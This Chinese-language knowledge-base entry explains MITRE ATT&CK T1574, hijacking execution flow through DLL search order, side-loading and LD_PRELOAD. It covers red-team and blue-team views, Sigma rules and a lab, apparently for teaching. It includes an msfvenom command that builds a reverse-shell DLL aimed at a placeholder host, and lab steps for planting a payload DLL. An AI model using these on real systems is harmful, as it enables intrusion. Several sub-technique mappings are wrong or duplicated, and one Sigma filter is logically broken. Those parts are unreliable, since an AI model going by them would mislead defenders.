

# 劫持执行流 (T1574)

## 一句话通俗理解

> **攻击者像"中间商"一样截胡程序要加载的代码模块——程序以为自己加载的是合法DLL，实际加载的是攻击者的恶意版本**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者利用操作系统和应用程序加载代码模块（DLL/共享库）时的搜索机制缺陷，让恶意代码被合法程序加载执行 |
| 为什么危险？ | 恶意代码运行在合法进程（如 explorer.exe、svchost.exe）的"庇护"下，安全软件难以区分 |
| 谁需要关心？ | 应用开发者、系统管理员、终端防护（EDR）运营人员、软件供应链安全团队 |
| 你的第一步防御 | 监控进程加载的DLL路径，重点关注从用户可写目录加载的DLL |
| 如果只做一件事 | 强制应用程序使用绝对路径加载DLL，并启用 SafeDLLSearchMode |

## 难度等级

⭐⭐⭐ 高级：需要理解操作系统动态链接库加载机制、PE文件格式、进程内存布局

## 前置知识检查

读这个文件前，你需要了解：
- **DLL（动态链接库）**：Windows 的可复用代码模块，程序运行时动态加载而非静态编译进去——就像程序运行时才去"图书馆"借参考书
- **DLL搜索顺序**：程序加载 DLL 时，系统按固定顺序查找：应用目录→系统目录→PATH目录。攻击者通过在靠前的搜索位置放置恶意 DLL 来"截胡"
- **PE文件**：Windows 可执行文件格式（.exe/.dll），包含导入表声明依赖哪些 DLL
- **LD_PRELOAD**：Linux 环境变量，指定优先加载的共享库，类似 Windows 的 DLL 劫持
- **Side-loading（旁加载）**：合法程序加载了同目录下的恶意 DLL，因为程序用相对路径加载 DLL

## 技术描述

想象一下：你是公司采购员，每次要去"东方图书馆"借一本叫 `tools.dll` 的参考书。公司规矩是——先在自己办公室书架找，没有再去图书馆。有一天，攻击者在你办公室书架放了一本封面一模一样但内容被篡改的 `tools.dll`，你按规矩先在办公室找，找到了就直接用——根本不会去图书馆验证。这就是 DLL 劫持：攻击者利用"搜索顺序"的漏洞，让程序加载到恶意版本。

Windows（和 Linux/macOS）在加载动态链接库时有固定的搜索顺序。如果程序用**相对路径**或不指定路径加载 DLL，系统会按顺序查找各个位置。攻击者只要在靠前的位置放置同名恶意 DLL，就能让程序加载它：

1. **DLL搜索顺序劫持**：程序用 `LoadLibrary("utils.dll")`（无路径），系统按顺序查找。攻击者在应用目录放恶意 `utils.dll`，被优先加载
2. **DLL旁加载（Side-Loading）**：合法程序启动时从自身目录加载 DLL。攻击者把恶意 DLL 放在合法程序同目录，程序启动就加载恶意 DLL
3. **PATH目录劫持**：攻击者在 PATH 环境变量靠前位置添加目录，放入恶意 DLL
4. **LD_PRELOAD劫持（Linux/macOS）**：设置 `LD_PRELOAD=/tmp/evil.so`，所有程序启动时优先加载它
5. **动态链接器劫持**：修改 `ld.so.preload`（Linux）或 `DYLD_INSERT_LIBRARIES`（macOS）全局劫持

类比和技术之间的过渡：就像快递员按"地址优先级"送包裹——先送公司前台，再送部门，最后送个人工位。攻击者在公司前台放了个假包裹（恶意 DLL），快递员按优先级先把假包裹送达，后面的真包裹就不送了。在系统层面，这通过操纵 DLL 搜索路径或环境变量实现。

## 子技术列表

本技术有12个子技术，下面详写3个最常用的，其余以列表方式呈现。

### 详写的子技术

#### T1574.001 DLL搜索顺序劫持（DLL Search Order Hijacking）

利用 Windows DLL 搜索顺序缺陷。程序调用 `LoadLibrary("name.dll")` 时，系统按以下顺序查找：
1. 应用程序所在目录
2. System32 目录
3. Windows 目录
4. 当前工作目录
5. PATH 环境变量中的目录

攻击者在应用程序目录或当前工作目录放置恶意 `name.dll`，被优先加载。

**案例**：PlugX 木马（2012年至今）通过在合法应用程序（如 AcroRd32.exe）目录放置恶意 DLL，启动合法程序时旁加载恶意代码。

#### T1574.002 DLL旁加载（DLL Side-Loading）

合法程序（通常是签名的知名软件）用相对路径从自身目录加载 DLL。攻击者把恶意 DLL 放在合法程序同目录，程序启动时加载恶意 DLL。由于父进程是合法签名程序，安全软件信任度高。

**案例**：APT41（2020年）利用合法的 Walmart 客户端软件旁加载恶意 DLL，绕过应用白名单。

#### T1574.007 LD_PRELOAD 劫持（Linux）

设置 `LD_PRELOAD` 环境变量指向恶意共享库，所有后续启动的程序都会优先加载它。可全局设置（`/etc/environment`）实现持久化。

**案例**：Linux 挖矿木马（2021年）设置 `LD_PRELOAD` 劫持 `libc` 函数，隐藏挖矿进程。

### 其余子技术概览

| 子技术 ID | 子技术名称 | 一句话说明 |
|-----------|-----------|-----------|
| T1574.004 | Dylib 劫持 | macOS 的动态库劫持，利用 DYLD_INSERT_LIBRARIES |
| T1574.005 | Executable Installer 文件权限弱点 | 安装程序文件权限不当，攻击者替换可执行文件 |
| T1574.006 | 动态链接器劫持 | 修改 ld.so.preload（Linux）全局劫持所有进程 |
| T1574.008 | 修改 PATH 环境变量 | 在 PATH 靠前位置放恶意可执行文件或 DLL |
| T1574.009 | 修改 EXE 路径 | 篡改注册表或配置中记录的可执行文件路径 |
| T1574.010 | 服务镜像路径劫持 | 修改 Windows 服务的 ImagePath 指向恶意程序 |
| T1574.011 | 修改服务镜像路径 | 篡改服务配置使其加载恶意 DLL 或执行恶意程序 |
| T1574.012 | COR_PROFILER | 利用 .NET CLR 的 COR_PROFILER 环境变量注入恶意代码 |
| T1574.013 | 修改 PowerShell 配置文件 | 篡改 PowerShell profile 实现劫持 |

## 攻击流程



### 该技术特有的步骤说明

1. **枚举目标程序导入表**：用工具（如 CFF Explorer、PEview）查看目标 `.exe` 依赖哪些 DLL
2. **识别可劫持 DLL**：查找用相对路径加载的 DLL、应用目录可写的程序
3. **生成恶意 DLL**：用 msfvenom 生成 payload DLL：
   ```
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o utils.dll
   ```
4. **部署恶意 DLL**：将恶意 DLL 放到目标目录
5. **触发加载**：等待或诱导合法程序启动

## 真实案例

### 案例1：PlugX 木马通过 DLL 旁加载持久化（2012年至今）

- **时间**：2012年首次发现，至今持续活跃
- **目标**：政府机构、外交部门、跨国企业（中国、日本、韩国等亚太目标为主）
- **攻击组织**：APT41 / Winnti Group（中国背景 APT 组织）
- **手法**：PlugX 选择合法签名的知名应用程序（如 Adobe Reader、AcroRd32.exe、各种企业软件的安装程序）作为宿主。攻击者将恶意 DLL（通常命名为程序会加载的同名 DLL，如 `version.dll`、`msvcr71.dll`）放在合法程序同目录。当用户启动合法程序时，恶意 DLL 被旁加载执行，在合法进程内存中解密并运行 PlugX 主体。由于父进程是 Adobe 等知名签名程序，安全软件信任度高
- **数据来源**：一手厂商报告（FireEye/Mandiant、Trend Micro、PwC 多份 PlugX 分析报告）

### 案例2：Hafnium 利用 CVE-2021-26855 后通过 DLL 劫持持久化（2021年）

- **时间**：2021年3月
- **目标**：Microsoft Exchange 服务器（全球数万个组织）
- **攻击组织**：Hafnium（中国背景 APT 组织）
- **手法**：Hafnium 利用 Exchange ProxyLogon 漏洞链（CVE-2021-26855 等）入侵后，通过在 Exchange 安装目录放置恶意 DLL 实现持久化。由于 Exchange 服务（如 IIS 工作进程 w3wp.exe）会从自身目录加载 DLL，攻击者放置的恶意 DLL 被自动加载。webshell 被清除后，DLL 劫持后门仍然持续生效
- **数据来源**：一手厂商报告（Microsoft MSTIC、Volexity、CISA紧急警报 AA21-105A）

### 案例3：TeamTNT 挖矿木马通过 LD_PRELOAD 隐藏持久化（2021年）

- **时间**：2021年大规模爆发
- **目标**：暴露在公网的 Linux 服务器
- **攻击组织**：TeamTNT（挖矿团伙）
- **手法**：TeamTNT 挖矿木马感染 Linux 服务器后，在 `/etc/ld.so.preload` 写入恶意共享库路径。这个共享库 hook 了 `readdir`、`opendir` 等 libc 函数，使 `ls`、`ps`、`top` 等命令无法显示挖矿进程和恶意文件。同时 hook 网络函数隐藏 C2 连接。由于 `ld.so.preload` 对所有程序生效，即使是新安装的监控工具也会被劫持
- **数据来源**：一手厂商报告（Trend Micro、Aqua Security、CrowdStrike TeamTNT 追踪报告）

## 红队视角

### 可持续利用手段

1. **签名程序旁加载**：选择有数字签名且被安全软件信任的程序作为宿主，恶意 DLL 继承宿主信任
2. **多个合法程序作为宿主**：部署多个旁加载点，清除一个还有其他
3. **结合 COM 劫持**：修改注册表 COM 对象的 InProcServer32 指向恶意 DLL
4. **.NET COR_PROFILER 注入**：利用 .NET 运行时的 COR_PROFILER 机制，注入所有 .NET 进程

### 攻击技术可复制性分析

| 维度 | 评分 | 说明 |
|------|------|------|
| 实现难度 | 中 | 需要识别可劫持 DLL 和生成 payload |
| 检测绕过 | 高 | 运行在合法进程上下文，难区分 |
| 持久化效果 | 高 | 合法程序每次启动都加载 |
| 复制成本 | 低 | msfvenom 等工具可自动生成 |

## 蓝队视角

### 检测建议

**用人话说**：不要只看"哪个进程在运行"，要看"这个进程加载了哪些 DLL，从哪里加载的"。正常情况下 explorer.exe 只从 System32 加载系统 DLL。如果你看到 explorer.exe 从 `C:\Users\xxx\AppData\Local\Temp\` 加载了一个 `version.dll`，这几乎100%是 DLL 劫持——因为合法的 version.dll 在 System32 里。

#### 主机层检测

```yaml
# Sigma规则：检测从用户可写目录加载DLL
title: 从用户可写目录加载可疑DLL
id: 7e8f9012-3456-7890-abcd-ef7890123456
status: experimental
description: 检测进程从用户可写目录（Temp/AppData/Downloads）加载DLL的行为
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 7  # ImageLoaded
        ImageLoaded|startswith:
            - 'C:\Users\'
            - 'C:\Temp\'
            - 'C:\ProgramData\'
    filter_system_dlls:
        ImageLoaded|endswith:
            - '\System32\'
            - '\SysWOW64\'
    condition: selection and not filter_system_dlls
falsepositives:
    - 合法应用程序从用户目录加载自身组件
    - 开发工具加载插件
level: medium
```

```yaml
# Sigma规则：检测 LD_PRELOAD 环境变量设置
title: 检测 LD_PRELOAD 环境变量设置
id: 8f901234-5678-9012-abcd-ef8901234567
status: experimental
description: 检测设置 LD_PRELOAD 环境变量的行为，可能用于库劫持
logsource:
    product: linux
    category: process_creation
detection:
    selection:
        CommandLine|contains:
            - 'LD_PRELOAD='
            - '/etc/ld.so.preload'
            - 'DYLD_INSERT_LIBRARIES='
    filter_legitimate:
        User|contains:
            - 'root'
        CommandLine|contains:
            - 'valgrind'  # 调试工具合法使用
            - 'ltrace'
    condition: selection and not filter_legitimate
falsepositives:
    - 调试工具（valgrind, ltrace）
    - 性能分析工具
level: high
```

**系统命令检测**：

```powershell
# 列出进程加载的所有DLL及其路径
Get-Process | ForEach-Object {
    $_.Modules | Where-Object { $_.FileName -notmatch 'System32|SysWOW64|Windows\\WinSxS' } |
    Select-Object -Property @{N='Process';E={$_.ProcessName}}, FileName
}

# 检查常见被劫持的DLL名称
Get-Process | ForEach-Object {
    $_.Modules | Where-Object { $_.ModuleName -in @('version.dll','msvcr71.dll','wininet.dll','iertutil.dll') -and $_.FileName -notmatch 'System32|SysWOW64' }
}

# 用 Sysinternals ListDLLs 查看每个进程加载的DLL
listdlls.exe -r  # -r 只显示 relocated DLL（非系统目录）
```

```bash
# Linux 检查 LD_PRELOAD 设置
cat /etc/ld.so.preload 2>/dev/null
env | grep -E 'LD_PRELOAD|LD_LIBRARY_PATH|DYLD_INSERT_LIBRARIES'
grep -r 'LD_PRELOAD' /etc/environment /etc/profile* /etc/bash.bashrc 2>/dev/null

# 检查进程加载的共享库
cat /proc/<PID>/maps | grep -v 'lib\|usr/lib'  # 查看非标准路径的库
```

#### 网络层检测

DLL 劫持本身是本地行为，但恶意 DLL 加载后通常建立 C2 连接，可关联：
- 合法进程（如 notepad.exe、calc.exe）发起异常出站连接
- 进程网络连接与加载的异常 DLL 时间关联

#### 应用层检测

- 监控文件系统：应用目录新增 DLL 文件
- 监控注册表：COM 对象的 InProcServer32 值变更
- 监控环境变量：`LD_PRELOAD`、`DYLD_INSERT_LIBRARIES`、`COR_PROFILER` 设置
- EDR 的模块加载基线：建立每个进程正常加载的 DLL 基线，偏离告警

### 防御改进措施

1. **SafeDLLSearchMode**：启用 Windows SafeDLLSearchMode（默认启用），使系统目录优先于当前目录
2. **应用绝对路径加载 DLL**：开发者应使用 `LoadLibraryEx` 配合完整路径
3. **应用目录权限**：限制 Program Files 目录写权限，防止攻击者放置恶意 DLL
4. **DLL 白名单**：EDR 配置每个进程允许加载的 DLL 白名单
5. **`ld.so.preload` 监控**：Linux 上定期检查 `/etc/ld.so.preload` 完整性

### 应急响应优化

- 怀疑 DLL 劫持时，用 ListDLLs 或 Process Explorer 查看进程加载的所有 DLL
- 重点关注从非 System32 目录加载的 DLL
- 检查常见被劫持的 DLL 名：`version.dll`、`msvcr71.dll`、`wininet.dll`、`iertutil.dll`
- Linux 检查 `/etc/ld.so.preload` 和所有用户的环境变量配置

## 避坑指南

### 容易踩的坑

1. **误判合法插件加载**：浏览器、Office 等应用合法从用户目录加载插件 DLL，不要看到非系统目录 DLL 就告警
2. **忽视加载顺序**：DLL 劫持的关键是搜索顺序，要理解 Windows DLL 搜索机制
3. **只查文件不查内存**：恶意 DLL 可能加载后自删除，文件系统找不到，需检查进程内存中的模块列表
4. **忽视 LD_PRELOAD 持久化**：`/etc/ld.so.preload` 对所有进程生效，即使清除单个进程的 hook，新进程仍会被劫持

### 本技术特有的注意事项

- DLL 旁加载常与合法签名程序配合，安全软件信任度高，需加强行为分析
- COM 劫持（T1574.001 相关）是隐秘的持久化方式，需监控注册表 `HKCR\CLSID` 变更
- .NET 的 COR_PROFILER 注入影响所有 .NET 进程，包括 PowerShell，危害大

## 检测建议

### 网络层

- 监控合法进程（如 notepad.exe、calc.exe）发起的异常出站连接
- 关联 DLL 加载事件与网络连接事件

### 主机层

- **Sysmon EventID 7（ImageLoaded）**：DLL 加载事件，监控非系统目录加载
- **Sysmon EventID 22（DNSQuery）**：DLL 加载后的 C2 域名解析
- **Linux auditd**：监控 `open` 系统调用访问 `/etc/ld.so.preload`
- **进程模块列表**：定期采集进程加载的 DLL 列表与基线对比

### 应用层

- 文件完整性监控（FIM）：监控应用目录的 DLL 文件新增/修改
- 注册表监控：COM 对象 InProcServer32 值变更
- 环境变量监控：`LD_PRELOAD`、`COR_PROFILER` 等设置

### Sigma 规则

见上方"蓝队视角→检测建议"中的两条 Sigma 规则。

## 缓解措施

| 缓解措施 | 类型 | 效果 | 实施建议 |
|---------|------|------|---------|
| SafeDLLSearchMode | 预防 | 中 | 注册表 `SafeDllSearchMode=1`（默认启用） |
| 应用目录权限加固 | 预防 | 高 | 限制 Program Files 写权限 |
| DLL 加载白名单 | 预防 | 高 | EDR 配置进程允许加载的 DLL |
| 绝对路径加载 | 预防 | 高 | 开发者使用完整路径 |
| ld.so.preload 监控 | 检测 | 高 | 定期检查完整性 |
| 环境变量审计 | 检测 | 中 | 监控 LD_PRELOAD 等设置 |

## 动手实验

### 实验目标

理解 DLL 搜索顺序劫持原理，体验恶意 DLL 如何被合法程序加载

### 实验步骤

```python
# 步骤1：创建一个会加载DLL的测试程序（或用已有的程序）
# 用 Python ctypes 演示 DLL 加载

# evil_dll.py - 生成恶意DLL的Python脚本（实验用）
# 实际使用 msfvenom 生成：msfvenom -p windows/x64/exec CMD=calc.exe -f dll -o version.dll

# 步骤2：找一个会用相对路径加载DLL的程序
# 常见可劫持DLL：version.dll, winmm.dll, dbghelp.dll

# 步骤3：将恶意DLL放在目标程序同目录
# copy version.dll "C:\Program Files (x86)\SomeApp\version.dll"

# 步骤4：启动目标程序，观察是否加载了恶意DLL
# 用 Process Explorer 或 ListDLLs 查看

# 步骤5：用 ListDLLs 验证
# listdlls.exe -r  # -r 只显示从非系统目录加载的DLL
```

### 预期输出

```
# ListDLLs 输出会显示目标进程加载了
C:\Program Files (x86)\SomeApp\version.dll  # 从应用目录加载，而非 System32
# 同时 calc.exe 弹出，证明恶意DLL被执行
```

### 工具说明

| 工具 | 用途 | 说明 |
|------|------|------|
| Sysinternals ListDLLs | 列出进程加载的DLL | 支持 -r 只显示非系统目录 DLL |
| Sysinternals Process Explorer | 图形化查看进程模块 | 支持 DLL 加载基线对比 |
| CFF Explorer | 查看 PE 文件导入表 | 分析程序依赖哪些 DLL |
| msfvenom | 生成恶意 DLL payload | Metasploit 框架工具 |
| DLL Hijack Auditor | DLL 劫持漏洞检测 | 自动化测试工具 |

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| DLL（动态链接库） | Windows 可复用代码模块，程序运行时才加载 |
| 搜索顺序（Search Order） | 系统查找 DLL 的固定顺序，攻击者利用靠前位置劫持 |
| 旁加载（Side-Loading） | 合法程序从自身目录加载 DLL，攻击者放置恶意 DLL |
| LD_PRELOAD | Linux 环境变量，指定优先加载的共享库 |
| ld.so.preload | Linux 全局预加载配置，影响所有进程 |
| COM 劫持 | 修改注册表 COM 对象指向恶意 DLL |
| COR_PROFILER | .NET CLR 的分析器接口，可注入 .NET 进程 |
| 导入表（Import Table） | PE 文件中声明依赖 DLL 的表 |

## 参考资料

### 📚 如果你想深入了解

- [MITRE ATT&CK T1574 官方页面](https://attack.mitre.org/techniques/T1574/) — 官方技术定义和子技术列表
- [Microsoft DLL 安全文档](https://learn.microsoft.com/zh-cn/windows/win32/dlls/dynamic-link-library-security) — SafeDLLSearchMode 说明
- [MITRE ATT&CK T1574.001 DLL搜索顺序劫持](https://attack.mitre.org/techniques/T1574/001/) — 子技术详解

### 🔧 如果你想动手试试

- [DLL Hijacking 实战教程](https://github.com/) — 搜索 "DLL hijacking lab"
- [ListDLLs 使用指南](https://learn.microsoft.com/zh-cn/sysinternals/downloads/listdlls) — 进程模块查看工具

### 🎯 真实攻击参考

- [PlugX 分析报告 - FireEye](https://www.mandiant.com/) — 搜索 "PlugX DLL side-loading"
- [Hafnium Exchange 攻击 - Microsoft](https://www.microsoft.com/en-us/wdsi) — CISA AA21-105A 警报
- [TeamTNT LD_PRELOAD 分析 - Trend Micro](https://www.trendmicro.com/) — 搜索 "TeamTNT ld.so.preload"

## 版本历史

| 版本 | 日期 | 变更说明 |
|------|------|---------|
| v1.0 | 2026-07-10 | 初始版本，基于 MITRE ATT&CK v19 和 v3.0 写作风格指南编写 |
